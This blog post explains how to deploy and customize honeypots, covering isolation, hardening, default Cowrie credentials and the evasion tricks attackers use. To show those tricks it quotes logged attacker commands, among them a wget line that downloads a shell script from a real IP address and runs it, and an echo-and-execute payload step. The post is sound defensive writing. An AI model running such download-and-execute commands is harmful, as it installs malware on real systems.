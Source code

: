 ```yaml
---
layout: post
title:  "Honeypot Deployment and Customization"
date:   2020-11-24 19:00 +0100
tags: malware
---
```

eploying Honeypots right is not always straightforward and leaves plenty of room for mistakes. Join me for a while to learn about deployment and customization of Honeypots.

<!--more-->

This is part 2 of a series detailing visualization, automation, deployment considerations, and pitfalls of Honeypots ([Part 1]({% post_url 2020-06-19-honeypot-intro %})).  
An extended version of this article and an according talk can be found at [Virus Bulletin 2020](https://vblocalhost.com/conference/presentations/like-bees-to-a-honeypot-a-journey-through-honeypots/).

The first step to data collection, which is also the most important one, is the deployment of Honeypots. There are multiple pitfalls and recommendations to consider depending on the use case. After a successful deployment, the next step is to collect generated data and possible payloads at a single data sink to enable metrics generation and monitoring of the complete infrastructure.

## Deployment Considerations
There are two main scenarios to consider when deploying Honeypots: Internal versus internet facing deployments. Both are valid scenarios but cover different use cases. For the remainder of this paper, we focus on internet-facing deployments for data collection if not further defined.
In an internal deployment, Honeypots can be considered as traps or alert systems. The idea is to deploy them throughout the company infrastructure, preferably near production servers. If an attacker is looking for a foothold in a network, they stumble upon these strategically placed systems and try to use them to persist access. Ideally, these Honeypots have been set up to raise alarms if incoming connections are detected, as there is no legit use for them in daily operations. This scenario can support existing measures like Intrusion Detection Systems or log monitoring as an active component to increase chances of early detection of intruders.  
Internet facing deployments on the other hand are more tailored towards collecting data on widespread attacks. This can range from basic information like attacked services (i.e. how common are attacks versus Android Debug Bridges) or used credentials up to detailed TTP information (i.e. which commands/scripts are executed, attempted lateral movement, persistency techniques and possible evasion attempts). In contrast to internal deployments, these are constantly exposed to world-wide traffic. Therefore, they are always to be considered compromised. As these deployments aim to provide no direct protection to an internal network, it is advisable to isolate internet facing Honeypots completely from production infrastructure. 
![Graphic that shows two sample deplyoments. The left is titled "Internal Deployment", showing the honeypot being placed next to production servers. The right is titled "Internet-facing Deployment" and shows the honeypot deployed in a DMZ, separated from all other infrastructure.](/images/deployment.png)
Besides these specifics, we can also derive some general recommendations for all deployment scenarios.  
As these systems are considered insecure by design, it is advisable to treat them accordingly. Leaving production data or company information on them is inadvisable, as well as reusing usernames, passwords, certificates, and SSH keys. If attackers manage to escape from the Honeypot to the hosting OS, they are otherwise able to gain valuable information about internal infrastructure and active usernames.  
Furthermore, it is strongly advised to run Honeypot services as a non-root user that has minimal permissions and is not able to use sudo. In the case of Honeypot escapes this makes it considerably harder for attackers to escalate privileges. As most emulated services are running in the range of system ports which require elevated privileges, it is prudent to run them on non-system ports and utilize iptables forwarding rules to make them look like they are running on the system port.  
If Honeypots for common services like SSH and FTP are deployed, they should be running on the services’ default port. Especially for SSH as means of access for most systems, it is recommended to disable password authentication and root login for the real SSH server, as well as running it on a non-standard port to free up port 22 for the Honeypot. This also means that the creation of an SSH alias in local configs is recommended to avoid connecting to the SSH Honeypot by accident when conducting maintenance or applying configuration changes.  
Another consideration is the hosting service for the infrastructure. If it is not hosted on company-owned infrastructure, the idea of using a low-end VPS provider is compelling. Unfortunately, these are prone to being shut down in context of [deadpooling scams](https://tech.slashdot.org/story/19/12/08/1549222/20-low-end-vps-providers-suddenly-shutting-down-in-a-deadpooling-scam), so it pays to be prepared to loose these systems at any time. In general, automated deployments based on tools like Ansible or Puppet should be used for reproducible results and lower the risk of misconfigurations. Combined with a backup strategy for collected data, logs, and payloads this ensures resilience to data loss.  
Furthermore, it is recommended to minimize the usage of OS-based resources for the specific requirements of Honeypots. For example, the usage of local virtual environments for Python-based projects should be considered over using system-wide package installations to avoid dependency problems with multiple projects running on the same language or OS updates that break dependencies.  
Regarding operation, it is also advisable to monitor the regular operation of deployed Honeypots including storage utilization, ideally with automated tests tailored to the respective protocol.  
Generally speaking, you’re exposing a system to the world that looks vulnerable - it most likely is vulnerable, but in other ways than you’d think. Honeypot deployments, especially when internet facing, are an asymmetrical playing field with an attacker advantage. They have infinite ways and time to try attacks – the operator needs to conduct one mistake to expose the Honeypot host and possibly the surrounding network to attacks.  
Besides the deployment, there are more things to take into consideration. Attackers constantly try to detect Honeypots – with various techniques and varying success rates. A [talk detailing finding flaws and their implications was held at 32c3](https://media.ccc.de/v/32c3-7277-breaking_honeypots_for_fun_and_profit). In the upcoming section, some commonly encountered detection techniques and possible workarounds are presented. These are merely pointers in the right direction. It is advisable to monitor your Honeypot infrastructure constantly and keep an eye out for disconnects always happening after specific commands or workflows, as these can point to evasion strategies.  

## Custom Configurations
Many Honeypots come with a default set of emulated parameters – including Hostname, service version, and credentials. This is especially common in low and medium interaction Honeypots. In the context of Honeypot configurations, customization is the key to evasion mitigation.  
As an example, the SSH Honeypot *Cowrie* is considered. If the default configuration is not changed, it used to accept the user `Richard` with the password `fout`, afterwards announcing that its system name is `svr04`. Checking for default configurations like these is relatively easy and therefore happens quite a lot.  
As a preventive measure, the footprint of the Honeypot should be as custom as possible. Especially announced hostnames, service versions and banners are low hanging fruit that can be changed. For low and medium interaction Honeypots it can also be a valid strategy to change outputs of emulated commands and create custom filesystem pickles to further make the system unique.

## Finding evasion tactics
As a general recommendation, monitor your Honeypots closely, especially in the early days of deployment, as they are "fresh" and unknown at this point. To stay on the example of Cowrie, it is possible to spot evasion techniques quite easily in the generated logs. In all cases the command workflow on the system is the same up until a specific point where commands either fail or are not executed at all. A commonly observed pattern of actors on the Cowrie SSH Honeypot is to echo the raw script into a file and trying to execute it subsequently.  
```bash
user@pot:~$ /bin/busybox echo -en '\x00\x00\x00\x00\xb4\x03\x00\x00\x1e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00' >> retrieve
user@pot:~$ ./retrieve
```
This does not work on most low and medium interaction Honeypots, as they disown files created by the connected SSH user as soon as possible. As these files are now non-existent, the workflow of echoing the initial payload into a file and executing said file afterwards does not work on these Honeypots, therefore it can be considered a successful evasion.
Another evasion technique commonly encountered is to download the payload and execute it in a second command. As discussed, this approach leads to a successful evasion, as the file is not available to the user anymore at time of execution.  
```bash
user@pot:~$ cd /; wget http://45.148.10.175/bins.sh; chmod 777 bins.sh; sh bins.sh;
```
There are not many mitigations available to these issues. Due to the very nature of low and medium interaction Honeypots, the most viable mitigation is to switch to a high interaction system. High interaction Honeypots present a complete, persistent environment to an incoming connection that often is cached even through reconnects. This means that all dropped or downloaded payloads are available for execution instead of being snatched away by the Honeypot.

## Sanity Checks
Sanity checks are also encountered quite often. As an initial example an SMTP Honeypot is considered. Attackers will try to connect to a mail server and send a test mail to their own infrastructure to check if the mail server is allowing outbound mail traffic. 
```json
{
  "timestamp": "2020-06-14T08:57:00.854855",
  "src_ip": "0.0.0.0", "src_port": 54282, "eventid": "mailhon.data",
  "envelope_from": "spam@provider.com", "envelope_to": ["spam@provider.com "],
   "envelope_data": "From: spam@provider.com\r\nSubject: 42.42.42.42\r\n
        To: spam@provider.com\r\nDate: Sat, 13 Jun 2020 23:56:59 -0700\r\nX-Priority: 3\r\n"
}
```
A possible mitigation is to allow the first mail from every connection to leave the honeypot. Be advised that this bears legal implications as the system is technically sending out spam.  
Besides the fully-fledged production test there are other sanity checks that can be observed. As a general guideline, deployed Honeypots should expose a configuration and sizing that is similar to their real-world counterparts. This can be archived more easily on low and medium interaction HPs as they often emulate commands by looking up text files which massively eases the spoofing of cluster states, replica configurations or even filesystem sizes. 

## Conclusion
As one can see, there is a lot to consider and check when deploying Honeypots. But don't fret - the work definitely pays off. It is very interesting to watch in realtime what is happening on your systems. But looking at logs isn't that much fun, so join me in the next part for details on sighting and visualizing data!
